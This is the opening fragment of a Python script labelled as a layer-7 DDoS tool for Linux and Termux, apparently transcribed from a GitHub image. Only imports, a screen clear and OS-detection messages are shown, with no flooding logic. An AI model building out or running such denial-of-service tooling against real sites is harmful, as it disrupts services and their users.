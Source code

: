 # scr Ddos Layer7
#555555 kuy
import socket
import os
from time import sleep
import multiprocessing
import random
import platform
#Script Linux & Termux
os.system('clear')
print("\033[1;32;40m Detecting System...")
sleep(5)
sysOS = platform.system()
print("\033[1;32;40m System detected: ", sysOS)
sleep(5)
